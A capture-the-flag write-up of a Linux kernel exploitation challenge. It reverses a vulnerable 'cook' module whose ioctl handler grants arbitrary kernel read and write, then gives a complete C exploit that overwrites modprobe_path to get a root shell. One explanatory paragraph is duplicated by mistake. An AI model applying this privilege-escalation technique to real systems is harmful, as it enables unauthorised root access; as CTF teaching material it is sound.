




## 💀🩸

```
Author: hyffs

Let him cook

nc ctf.tcp1p.com 10000
```
**Attachment**: [challenge.zip](release/challenge.zip)

We were given a zip file containing the following files:

  

I will assume you already have a basic understanding of kernel exploitation. If you don't, I strongly recommend that you read about it from [here](https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/).


Let's take a look at the provided run\.sh file.
<details open><summary>run.sh</summary>


```bash
#!/bin/sh
/usr/bin/qemu-system-x86_64 \
	-m 64M \
	-cpu kvm64,+smep,+smap \
	-nographic \
	-monitor /dev/null \
	-kernel bzImage \
	-initrd initramfs.cpio.gz \
	-no-reboot \ 
	-append "console=ttyS0 quiet kaslr panic=1 kpti=1 oops=panic" \
```
</details>

Based by the code above, there's some mitigation in this challenge such as SMEP, SMAP, KPTI and KASLR.

Now, let's extract the initramfs.cpio.gz file using the following script:

<details open><summary>decompress.sh</summary>

```bash
mkdir initramfs
cd initramfs
cp ../initramfs.cpio.gz .
gunzip ./initramfs.cpio.gz
cpio -idm < ./initramfs.cpio
rm initramfs.cpio
```
</details>

  

Let's find where the kernel object file are located. 

  
The kernel object was located at `/lib/modules/6.1.56/cook.ko`.

Below is the decompiled kernel object provided (I only highlight the important part).
<details open><summary>Decompiled Kernel Object (cook.ko)</summary>
    
```c
__int64 __fastcall gyattt_ioctl(__int64 a1, int a2, __int64 a3)
{
  __int64 v5; // rsi
  __int64 v6; // rsi
  __int64 v7; // [rsp+0h] [rbp-20h] BYREF
  __int64 v8; // [rsp+8h] [rbp-18h]
  unsigned __int64 v9; // [rsp+10h] [rbp-10h]

  v9 = __readgsqword(0x28u);
  if ( a2 == 0x6969 )
  {
    if ( copy_from_user(&v7, a3, 16LL) )
    {
      printk(&unk_1AE, a3);
      return -14LL;
    }
    else
    {
      v6 = v8;
      if ( !copy_to_user(a3, v8, 8LL) )
        return 0LL;
      printk(&unk_1CB, v6);
      return -14LL;
    }
  }
  else
  {
    if ( a2 != 0xFADE )
      return 0LL;
    if ( copy_from_user(&v7, a3, 16LL) )
    {
      return ((__int64 (*)(void))gyattt_ioctl_cold)();
    }
    else
    {
      v5 = v8;
      if ( !copy_from_user(v7, v8, 8LL) )
        return 0LL;
      printk(&unk_204, v5);
      return -14LL;
    }
  }
}

__int64 this_is_init()
{
  Major_num = _register_chrdev(0LL, 0LL, 256LL, "cook", &fops);
  if ( Major_num >= 0 )
  {
    printk(&unk_278, (unsigned int)Major_num);
    return 0LL;
  }
  else
  {
    printk(&unk_248, (unsigned int)Major_num);
    return (unsigned int)Major_num;
  }
}
```
</details>

Based on the `this_is_init()` function, when the kernel object is executed, we can communicate with it in the `/dev/cook` directory.
```c
...
Major_num = _register_chrdev(0LL, 0LL, 256LL, "cook", &fops);
...
```

There is also a function called `gyattt_ioctl()` that is used to handle ioctl calls. In this function, there are two branches (let's call it a menu) controlled by the ioctl request flags (the 2nd argument). These flags requests are 0x6969 and 0xFADE.

Let's dissect the 0x6969 flag request first.
```c
void __fastcall gyattt_ioctl(__int64 a1, int a2, __int64 a3)
{
    __int64 v4; // rsi
    __int64 v5; // rsi
    __int64 dest; // [rsp+0h] [rbp-20h] BYREF
    __int64 src; // [rsp+8h] [rbp-18h]
    unsigned __int64 v8; // [rsp+10h] [rbp-10h]

    v8 = __readgsqword(0x28u);
    if ( a2 == 0x6969 )
    {
    if ( copy_from_user(&dest, a3, 16LL) )
    {
        printk(&unk_1AE, a3);
    }
    else
    {
        v5 = src;
        if ( copy_to_user(a3, src, 8LL) )
        printk(&unk_1CB, v5);
    }
    }
  ...
}
```
This menu copies data from user space to kernel space using the `copy_from_user()` function. The data from user space comes from the 3rd argument of the ioctl call and is stored in the local variable `dest`, which has a size of 16 bytes. If the copying is successful, this menu copies data from kernel space to user space, specifically 8 bytes using `copy_to_user(a3, src, 8)`. Note that the result of the initial `copy_from_user` operation at the beginning of the menu is used to set the value that is stored in the `src` variable used in the `copy_to_user` call.

<br>

Next, there's the menu with a 0xFADE as the flag request.
```c
void __fastcall gyattt_ioctl(__int64 a1, int a2, __int64 a3)
{
  __int64 v4; // rsi
  __int64 v5; // rsi
  __int64 dest; // [rsp+0h] [rbp-20h] BYREF
  __int64 src; // [rsp+8h] [rbp-18h]
  unsigned __int64 v8; // [rsp+10h] [rbp-10h]

  v8 = __readgsqword(0x28u);
  ...
  else if ( a2 == 0xFADE )
  {
    if ( copy_from_user(&dest, a3, 16LL) )
    {
      gyattt_ioctl_cold((__int64)&dest, a3);
    }
    else
    {
      v4 = src;
      if ( copy_from_user(dest, src, 8LL) )
        printk(&unk_204, v4);
    }
  }
}
```
Similar to the previous menu, this one copies data from user space to kernel space using the `copy_from_user()` function and stores it in a local variable called `dest`. If the copying is successful, this menu will then copy data back from user space to kernel space using `copy_from_user(dest, src, 8)`. Once again, note that the copying is done using the values stored in the `dest` and `src` variables for 8 bytes.

This menu copies data from user space to kernel space using the `copy_from_user()` function. The data from user space comes from the 3rd argument of the ioctl call and is stored in the local variable `dest`, which has a size of 16 bytes. If the copying is successful, this menu copies data from kernel space to user space, specifically 8 bytes using `copy_to_user(a3, src, 8)`. Note that the result of the initial `copy_from_user` operation at the beginning of the menu is used to set the value that is stored in the `src` variable used in the `copy_to_user` call. Due to the absence of checks, this can be used to leak some value from the kernel space.

We can assume that:
- Flag request 0x6969: used for reading data at an address for 8 bytes.
- Flag request 0xFADE: used for writing 8 bytes of data to an address.
Which means we can perform Arbitrary Address Read & Write (AAR & AAW).

But what do we need to write??? Also, it's worth noting that KASLR (Kernel Address Space Layout Randomization) is enabled in this challenge, which means the kernel addresses are randomized, making exploitation more challenging.

Let's modify the `init` file inside the `initramfs` directory to provide us a root shell.

<details open> <summary>initramfs/init</summary>

```bash
#!/bin/sh

[ -d /dev ] || mkdir -m 0755 /dev
[ -d /sys ] || mkdir /sys
[ -d /proc ] || mkdir /proc
[ -d /tmp ] || mkdir  /tmp

chown -R root:root /
chmod 700 -R /root
chown -R blud:blud /home/blud

mount -t sysfs -o nodev,noexec,nosuid sysfs /sys
mount -t proc -o nodev,noexec,nosuid proc /proc
mount -t devtmpfs -o nosuid,mode=0755 udev /dev
mkdir -p /dev/pts
mount -t devpts -o noexec,nosuid,gid=5,mode=0620 devpts /dev/pts || true

modprobe cook
mknod -m 666 /dev/cook c `grep cook /proc/devices | awk '{print $1;}'` 0

cat /etc/issue
export ENV=/etc/profile

# === MODIFY HERE ===
sh # <-- add this
# setsid cttyhack setuidgid blud sh # <-- COMMENT THIS

umount /proc
umount /sys
umount /dev

poweroff -d 0 -f
```
</details>

Now, we need to compress the initramfs directory back into `initramfs.cpio.gz` so that the modifications can take effect when the kernel is executed. Here is the script that I used to re-compress the initramfs directory:

<details open> <summary>compress.sh</summary>

```bash
musl-gcc -o exp -static exploit.c
mv ./exp ./initramfs
cd initramfs
find . -print0 \
| cpio --null -ov --format=newc \
| gzip -9 > initramfs.cpio.gz
mv ./initramfs.cpio.gz ../
```
</details>

(we haven't create the exploit.c yet, but it's fine. And I used musl-gcc instead of gcc to produce a binary with smaller size)

Now run the `compress.sh` to recompress it and `run.sh` to start the kernel.
```bash
$> ./compress.sh; ./run.sh
```

When the program finished the booting process, we will have a root shell. Let's check whether the running KASLR is influenced by FG-KASLR. The method I use to check this is by examining the symbol names in `/proc/kallsyms`, such as `_text`, `modprobe_path`, `prepare_kernel_cred`, `commit_creds` using the following command:
```bash
cat /proc/kallsyms | grep -wE "modprobe_path|prepare_kernel_cred|commit_creds|_text"
```

Then, I reboot the kernel and run the command several times to ensure that FG-KASLR is not present in this challenge kernel. 
```bash
root@tcp1p:~# cat /proc/kallsyms | grep -wE "modprobe_path|prepare_kernel_cred|commit_creds|_text"
ffffffff8fa00000 T _text
ffffffff8fa995a0 T commit_creds
ffffffff8fa99840 T prepare_kernel_cred
ffffffff91252420 D modprobe_path
root@tcp1p:~# exit
(reboot)
root@tcp1p:~# cat /proc/kallsyms | grep -wE "modprobe_path|prepare_kernel_cred|commit_creds|_text"
ffffffffbb400000 T _text
ffffffffbb4995a0 T commit_creds
ffffffffbb499840 T prepare_kernel_cred
ffffffffbcc52420 D modprobe_path
```

It can be observed that the changes to each symbol are not significant and only occur in the middle part. This proves that the kernel address randomization is not affected by FG-KASLR. Since we found `modprobe_path` in the previous reading of the `/proc/kallsyms` file, I have an idea to overwrite `modprobe_path`.

Then, to simplify the exploit process, I disable KASLR in the `run.sh` file first:

<details open> <summary>run.sh</summary>

```bash
#!/bin/sh
/usr/bin/qemu-system-x86_64 \
	-m 64M \
	-cpu kvm64,+smep,+smap \
	-nographic \
	-monitor /dev/null \
	-kernel bzImage \
	-initrd initramfs.cpio.gz \
	-no-reboot \
	-append "console=ttyS0 quiet nokaslr panic=1 kpti=1 oops=panic" # <-- modified from: "kaslr", to: "nokaslr"
```
</details>

But before starting the kernel again, I created a file named `exploit.c` that will be used to communicate with the provided kernel object in "/dev/cook."

<details open> <summary>exploit.c</summary>

```c
#include <stdio.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>

int fd;

int main(int argc, char * argv[]){
    fd = open("/dev/cook", O_RDWR);
    printf("[!] Opened fd : %d\n", fd);
  
}
``` 
</details>

Run the `compress.sh` and `run.sh` file again to recompress and start the kernel. Run the exploit binary, that located at `/exp`.

  

Based by the image above, a new file descriptor has been opened. Which means that the binary payload we created successfully communicates with the kernel object in `/dev/cook`. 

Now, how do we exploit it? As previously mentioned, the plan is to overwrite the string "/sbin/modprobe" stored in modprobe_path to point to a file "/home/blud/x" that contains a malicious command capable of granting us root permissions (`setsid cttyhack setuidgid root sh`). Then, we create a new file with an unknown extension ("\xff\xff\xff\xff"), so when a user runs that file, the kernel will execute the "/home/blud/x" file (the string we've written in modprobe_path).

Let's create a C script that will be used to create an unknown file with the extension "\xff\xff\xff\xff" in our payload program.

```c
char evil_str[]= "/home/blud/x\x00";

void prepare_hax(void)
{
    system("echo '#!/bin/sh\nsetsid cttyhack setuidgid root sh' > /home/blud/x");
    system("chmod +x /home/blud/x");

    system("echo -ne '\\xff\\xff\\xff\\xff' > /home/blud/dummy");
    system("chmod +x /home/blud/dummy");
}

void get_shell(void)
{
    puts("[*] Run unknown file");
    system("/home/blud/dummy");
    
    puts("[X] PWN3D!");
}
```

Then, reopen `/proc/kallsyms` to get the kernel base address (`_text`) and the address of `modprobe_path`, and note both of these addresses in our binary payload.

```c
/*
root@tcp1p:~# cat /proc/kallsyms | grep -wE "_text|modprobe_path"
ffffffff81000000 T _text
ffffffff82852420 D modprobe_path
*/

#define BASE_ADDRESS 0xffffffff81000000
#define MODPROBE_PATH_OFFSET (0xffffffff82852420 - BASE_ADDRESS)
```

Since we can perform Arbitrary Address Read, we can start with an egghunt to locate where the address of the string "/sbin/mo" (8 bytes) is stored. 

```c
    struct Payload ww;
    int offset = 0;
    long leaked_value = 0;

    for (offset=0; offset <= 512; offset++)
    {
        ww.where = &leaked_value;
        ww.value = BASE_ADDRESS + MODPROBE_PATH_OFFSET + (offset << 20);
        ioctl(fd, 0x6969, &ww);
        leaked_value = ww.where;
        printf("%d = 0x%llx\n", offset, leaked_value);
        if (leaked_value == 0x6f6d2f6e6962732f){ // "/sbin/mo"
            printf("[+] OFFSET FOUND %d\n", offset);
            break;
        } 
    }
```


If found, we can then proceed to use Arbitrary Address Write to overwrite `modprobe_path` with "/home/blud/x", then trigger the shell.

```c
    puts("[+] Overwrite modprobe_path with evil_str");
    ww.where = BASE_ADDRESS + MODPROBE_PATH_OFFSET + (offset << 20);
    ww.value = (long)(&evil_str)+0;
    ioctl(fd, 0xFADE, &ww);

    ww.where = BASE_ADDRESS + MODPROBE_PATH_OFFSET + (offset << 20)+8;
    ww.value = (long)(&evil_str)+8;
    ioctl(fd, 0xFADE, &ww);
    get_shell();
```

Here's my exploit to solve this challenge.

<details open> <summary>exploit.c</summary>

```c
#include <stdio.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>

int fd;
char evil_str[]= "/home/blud/x\x00";

void prepare_hax(void)
{
    system("echo '#!/bin/sh\nsetsid cttyhack setuidgid root sh' > /home/blud/x");
    system("chmod +x /home/blud/x");

    system("echo -ne '\\xff\\xff\\xff\\xff' > /home/blud/dummy");
    system("chmod +x /home/blud/dummy");
}

void get_shell(void)
{
    puts("[*] Run unknown file");
    system("/home/blud/dummy");

    puts("[X] PWN3D!");
}

struct Payload {
    long where;
    long value;
};

/*
root@tcp1p:~# cat /proc/kallsyms | grep -wE "_text|modprobe_path"
ffffffff81000000 T _text
ffffffff82852420 D modprobe_path
*/

#define BASE_ADDRESS 0xffffffff81000000
#define MODPROBE_PATH_OFFSET (0xffffffff82852420 - BASE_ADDRESS)


int main(int argc, char * argv[]){
    fd = open("/dev/cook", O_RDWR);
    printf("[!] Opened fd : %d\n", fd);

    prepare_hax();
    struct Payload ww;
    int offset = 0;
    long leaked_value = 0;

    for (offset=0; offset <= 512; offset++)
    {
        ww.where = &leaked_value;
        ww.value = BASE_ADDRESS + MODPROBE_PATH_OFFSET + (offset << 20);
        ioctl(fd, 0x6969, &ww);
        leaked_value = ww.where;
        printf("%d = 0x%llx\n", offset, leaked_value);
        if (leaked_value == 0x6f6d2f6e6962732f){ // "/sbin/mo"
            printf("[+] OFFSET FOUND %d\n", offset);
            break;
        } 
    }

    puts("[+] Overwrite modprobe_path with evil_str");
    ww.where = BASE_ADDRESS + MODPROBE_PATH_OFFSET + (offset << 20);
    ww.value = (long)(&evil_str)+0;
    ioctl(fd, 0xFADE, &ww);

    ww.where = BASE_ADDRESS + MODPROBE_PATH_OFFSET + (offset << 20)+8;
    ww.value = (long)(&evil_str)+8;
    ioctl(fd, 0xFADE, &ww);
    get_shell();
  
}
``` 
</details>

Let's try the exploit in our local environment (don't forget to re-enabled the kaslr and set the shell permission back to user).

  

    
**Flag:** TCP1P{WHY_DID_YALL_LET_HIM_COOK_!!!!😭😭😭}